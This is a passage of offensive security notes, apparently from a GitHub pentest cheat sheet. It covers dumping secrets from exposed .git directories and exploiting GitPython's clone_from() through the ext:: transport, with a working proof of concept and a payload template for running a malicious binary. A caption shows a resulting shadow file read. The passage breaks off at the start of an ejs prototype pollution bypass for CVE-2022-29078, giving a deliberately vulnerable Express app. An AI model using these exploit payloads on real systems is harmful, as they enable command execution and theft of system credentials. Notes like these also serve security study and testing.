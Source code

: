 - Use [GitTools](https://github.com/internetwache/GitTools)'s `Extractor/extractor.sh` to dump sensitive info

![image](https://github.com/user-attachments/assets/a4ea7cfd-378f-4f3e-b725-67be8be9ae11)

- Objects spotted

![image](https://github.com/user-attachments/assets/520e4b68-2b84-4569-8058-92bda7c2101b)

----------------------

### Exploiting clone_from() Gitpython function

- Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments. This is only relevant when enabling the ext transport protocol.

- POC
  
      from git import Repo
      r = Repo.init('', bare=True)
      r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])

- A good method to exploit it to create a script and run the script with the `ext::sh`.e.g

![image](https://github.com/user-attachments/assets/63fe448c-d9ce-4dc1-8b0b-cfe73041b2f9)

- Shadow file result

![image](https://github.com/user-attachments/assets/242797a1-e1fe-4bb0-bd93-c90a0c48455f)

- Payload-:```ext::bash -c [path_to your_malicious_binary]% ls2```

------------------------

### Reference:

- [Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

-------------------------

### Node's ejs Prototype Pollution CVE

The poc below bypasses the fix for `CVE-2022-29078` in `^3.1.7`

- Example of vulnerable `index.js`, res.render in this case is controllable

      const express = require('express')
      const app = express()
      const port = 3000
      
      app.set('view engine', 'ejs');
      
      app.get('/page', (req,res) => {
          res.render('page', req.query);
      })
      